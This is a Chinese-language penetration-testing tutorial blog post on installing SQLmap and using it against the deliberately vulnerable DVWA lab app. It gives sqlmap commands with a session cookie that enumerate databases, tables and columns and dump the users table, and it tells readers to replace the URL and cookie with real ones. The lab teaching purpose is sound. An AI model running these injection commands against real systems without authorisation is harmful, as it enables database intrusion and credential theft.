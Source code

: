 ```yaml
---
author: 星火燎原@vxhly
title: 渗透工具用法（一）SQLmap 的用法
categories: [pentest]
tags: [Security, Liunx, Python, Pentest]
date: 2016-09-20 10:46:46
---
```


::: tip
此系列笔记是网络渗透工具的使用方法, 本篇是介绍 SQL 注入工具 SQLmap 的使用方法。SQLmap 是一款用来检测与利用 SQL 注入漏洞的免费开源工具, 有一个非常棒的特性, 即对检测与利用的自动化处理（数据库指纹、访问底层文件系统、执行命令）
:::
<!-- more -->

## SQLmap 环境

::: tip
由于 `kali Liunx` 已经集成了 SQLmap 的环境, 这里就直接介绍 `Windows` 下环境的构建。
:::

### 先安装 Python

正常情况下我们安装 `2.7.x` 就好了。

[Python 官网下载地址](//www.python.org/getit/)

接下来只需在环境变量 `path` 中添加 Python 的安装路径就好了。<br>

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-1.png)

### 再安装 SQLmap

[SQLmap 官网下载地址](//sqlmap.org/)

将 SQLmap 解压至 Python 目录下, 将 SQLmap 的程序目录重命名为 sqlmap。

#### 在桌面新建快捷方式

`For Example:` 

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-2.png)

<br>

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-3.png)

<br>

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-4.png)

## DVWA 环境

DVWA(Dam Vulnerable Web Application) 使用 `PHP+Mysql` 编写的一套用于常规 WEB 漏洞教学和检测的 WEB 脆弱性测试程序。包含 SQL 注入、XSS、盲注等常见的一些漏洞。

[DVWA GitHub 下载地址](//github.com/ethicalhack3r/DVWA)

在 `Windows` 下还需安装 `PHP` 环境, 这里推介两个 `PHP` 集成环境。

[upupw PHP 集成环境](//www.upupw.net/) 
[phpStudy PHP 集成环境](//www.phpstudy.net/)

接下来只需修改一下配置文件就好了。

## SQlmap 使用方法

`Windows` 下跟 `kali Liunx` 下使用方法不相同。

为方便演示, 我们创建两个虚拟机: 

* 受害者机器, `Windows 2003` 操作系统, 运行一个 WEB 服务器, 同时跑着一个包含漏洞的 WEB 应用（DVWA）。
* 攻击器机器, 使用 `kali Liunx` 或者其他版本的 `Windows` 包含 SQLmap 程序。

本次实验的目的: 使用 SQLmap 得到以下信息: 

* 枚举 MYSQL 用户名与密码。
* 枚举所有数据库。
* 枚举指定数据库的数据表。
* 枚举指定数据表中的所有用户名与密码。

### 查看帮助

`Windows: ` 查看 Python 帮助命令

``` bash
python sqlmap.py -h
```

`kali Liunx: ` 查看 Python 帮助命令

``` bash
sqlmap -h
```

::: warning
需要注意的是 `Windows` 下的选项和 `kali Liunx` 下的选项是一致的, 但是命令是不一致的。在 `Windows` 下使用 `python sqlmap.py` , 而在 `kali Liunx` 下使用的是 `sqlmap` 。
:::

### 选项解释

* **--cookie** => 设置我们的 cookie 值 "将 DVWA 安全等级设置为 low"
* **--data** => 设置 POST 提交的值, 如果是 GET 提交, 不需要此选项
* **-u** => 指定目标 URL
* **-b** => 获取 DBMS banner
* **--current-db** => 获取当前数据库
* **--current-user** => 获取当前数据库的用户
* **--tables** => 获取数据库里所有的表名
* **--columns** => 获取表里的所有字段
* **--dump** => 获取值
* **--current-user** => 获取当前用户
* **-D** => 爆库指定数据库名
* **-T** => 爆库指定表名
* **-C** => 爆库指定字段名
* **--string** => 当查询可用时用来匹配页面中的字符串
* **--users** => 枚举 DBMS 用户
* **--password** => 枚举 DBMS 用户密码 hash
* **--dbs** => 枚举 DBMS 中的数据库

## 开始爆库

由于 `Windows` 和 `kali Liunx` 的做法基本一致, 这里以 `kali Liunx` 为例。DVWA 的难度为 low。

### 先获取 Cookie

每一次的 Cookie 都不一样, 这里是个示范。

`For Example:` <br>

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-5.png)

### 获取数据库, --current-db

`For Example:` 

``` bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" --current-db
```

URL 地址和 Cookie 请用真实的替换掉。这条命令可以把当前所有的数据库获取出来的。注意 `--current-db` 的 `-` 可是有两个的。

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-6.png)

### 获取表, --tables

前面, 我们已经获取到数据库名, 这时候我们要指定数据库名。使用 `-D` 选项指定数据库名。注意 `--tables` 的 `-` 可是有两个的。

`For Example:` 

``` bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" -D 'dvwa' --tables
```

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-7.png)

### 获取字段, --columns

::: tip
前面, 我们已经获取到数据库名和表名了, 这时候我们要指定数据库名和表名。使用 `-D` 选项指定数据库名, 使用 `-T` 指定表名。这里我们选择表 `users` 。注意 `--columns` 的 `-` 可是有两个的。
:::

`For Example:` 

``` bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" -D 'dvwa' -T 'users' --columns
```

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-8.png)

### 获取数据, --dump

::: tip
前面, 我们已经获取到数据库名、表名还有字段名了, 这时候我们要指定数据库名、表名还有字段名。使用 `-D` 选项指定数据库名, 使用 `-T` 指定表名, 使用 `-C` 指定字段名。这里我们选择表 `users` 中的字段 `user_id` 。注意 `--dump` 的 `-` 可是有两个的。
:::

`For Example:` 

``` bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" -D 'dvwa' -T 'users' -C 'user_id' --dump
```

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-9.png)

